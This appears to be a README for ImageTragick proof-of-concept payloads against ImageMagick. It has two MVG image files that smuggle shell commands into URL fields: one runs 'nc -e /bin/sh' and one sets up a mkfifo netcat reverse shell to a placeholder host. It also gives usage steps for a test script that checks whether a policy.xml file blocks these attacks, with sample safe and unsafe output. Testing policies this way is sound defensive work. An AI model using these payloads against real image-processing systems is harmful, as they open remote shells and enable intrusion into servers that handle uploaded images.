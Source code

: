 # ImageTragick POCs

## RCE_POC
----

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/someimage.jpg"|nc -e /bin/sh 127.0.0.1 "4544)'
pop grahic-context

----
----
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 8989 >/tmp/f `'
pop graphic-context

----

## How To Use
```
git clone https://github.com/ImageTragick/PoCs.git
cd PoCs
./test.sh
```

To test a `policy.xml` file place it in the script directory and run `test.sh`.

## Safe Output
```
user@host:~/code/PoCs$ ./test.sh 
testing read
SAFE

testing delete
SAFE

testing http with local port: 38663
SAFE

testing http with nonce: a7DyBeV7
SAFE

testing rce1
SAFE

testing rce2
SAFE

testing MSL
SAFE
```

## Unsafe Output
```
user@host:~/code/PoCs$ ./test.sh 
testing read
UNSAFE

testing delete
UNSAFE

testing http with local port: 44755
UNSAFE

testing http with nonce: a7DvBer2
UNSAFE

testing rce1
UNSAFE

testing rce2
UNSAFE

testing MSL
UNSAFE
```
